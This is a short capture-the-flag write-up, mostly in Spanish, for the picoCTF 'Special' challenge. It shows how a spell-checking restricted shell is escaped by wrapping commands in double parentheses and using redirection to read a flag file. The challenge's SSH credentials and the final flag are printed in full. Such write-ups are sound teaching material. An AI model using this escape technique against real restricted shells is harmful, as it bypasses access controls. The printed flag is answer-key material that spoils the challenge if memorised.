 Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 61228 ctf-player@saturn.picoctf.net`The password is `8a707622`

Hints:
Experiment with different shell syntax

Solución
Después de muchos intentos vi que comandos se ejecutaban cuando se ponían entre dos paréntesis. Se puede realizar un ls:
```
Special$ ((ls))
((ls)) 
blargh
```
Después se le puede pasar al comando un archivo con el operador <, se le puede pasar el archivo que se listó como si fuera el operador de redireccionamiento
```
Special$ ((cat)) < blargh
((cat)) < large 
sh: 1: cannot open large: No such file
```
Esta respuesta nos dice que no es un archivo sino tal vez un directorio, y lo más probable es que ahí dentro esté la flag, por lo que podemos hacer lo mismo pero intentar pasarle el archivo de la flag
```
Special$ ((cat)) < blargh/flag.txt
((cat)) < blargh/flag.txt 
picoCTF{5p311ch3ck_15_7h3_w0r57_a60bdf40}Special$ 
```